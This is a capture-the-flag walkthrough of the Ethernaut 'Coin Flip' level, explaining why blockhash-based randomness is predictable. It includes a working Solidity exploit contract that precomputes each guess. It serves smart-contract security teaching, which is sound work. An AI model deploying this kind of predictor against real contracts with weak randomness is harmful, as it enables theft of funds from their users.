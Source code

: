 ```yaml
---
description: >-
  In Ethernaut's Coin Flip, we're introduced to the problem of randomness on a
  public, deterministic blockchain.
---
```


# 3 - Coin Flip

The goal of [this level](https://ethernaut.openzeppelin.com/level/0x4dF32584890A0026e56f7535d0f2C6486753624f) is to guess the correct outcome of the contract's "coin flip" 10 times in a row.

### Hints

<details>

<summary>Hint One</summary>

If the contract's `flip` function were truly random, this level would be impossible. How, exactly, does it determine the outcome of the coin flip? How could we use this knowledge to improve our guesses?

</details>

<details>

<summary>Hint Two</summary>

The outcome of each coin flip is purely a function of the hash of the last mined block. The hash is divided by a constant `FACTOR` and whether this quotient `== 1` determines the result. We will need to script the calculation of this value ourselves prior to each "guess" transaction. This can be implemented in a smart contract of our own!

</details>

### Full Walkthrough

The contract's `flip` function is responsible for simulating the outcome of the coin flip (a boolean) and checking it against the user's `_guess`. The issue with the way this feature has been implemented is that the outcome of the flip is purely a function of the hash of the last mined block, a public variable accessible to any user prior to them making their guess. Comments have been added to the contract snippet below for clarity.

```solidity
function flip(bool _guess) public returns (bool) {
  // This variable is publicly knowable prior to the function being called
  uint256 blockValue = uint256(blockhash(block.number.sub(1)));

  // The rest of the code below is incidental, the coin flip is purely a 
  // function of the (known) 'blockValue' variable above.

  if (lastHash == blockValue) {
    revert();
  }

  lastHash = blockValue;
  uint256 coinFlip = blockValue.div(FACTOR);
  bool side = coinFlip == 1 ? true : false;

  if (side == _guess) {
    consecutiveWins++;
    return true;
  } else {
    consecutiveWins = 0;
    return false;
  }
}
```

As we can determine the `blockValue` before calling the contract's `flip` function, we simply need to implement our own matching flip function to calculate our "guess" in advance of each transaction.

We'll write our own "proxy contract" in Solidity to handle making our guesses.

### Scripted Solution

```solidity
pragma solidity ^0.8.0;

import "./CoinFlip.sol";

contract CoinFlipExploit {
    CoinFlip public coinFlipContract;
    uint256 FACTOR =
        57896044618658097711785492504343953926634992332820282019728792003956564819968;

    /**
     * @dev Sets `coinFlipContract` to instance at `coinFlipContractAddress`.
     */
    constructor(address coinFlipContractAddress) {
        coinFlipContract = CoinFlip(coinFlipContractAddress);
    }

    /**
     * @dev Calls the CoinFlip contract's `flip` function with the correct guess.
     */
    function guess() public {
        uint256 previousBlockHash = uint256(blockhash(block.number - 1));
        bool side = (previousBlockHash / FACTOR) == 1 ? true : false;

        coinFlipContract.flip(side);
    }
}
```

### Key Takeaways

* Generating sufficiently random data is a challenge on a _**deterministic**_\*\* blockchain\*\* and is a problem best left to industry standard solutions like the Chainlink oracle's "Verifiable Random Function".
* Smart contracts on public blockchains are auditable by anyone. Any attempts to hide clever tricks in a contract's code are therefor ultimately futile.
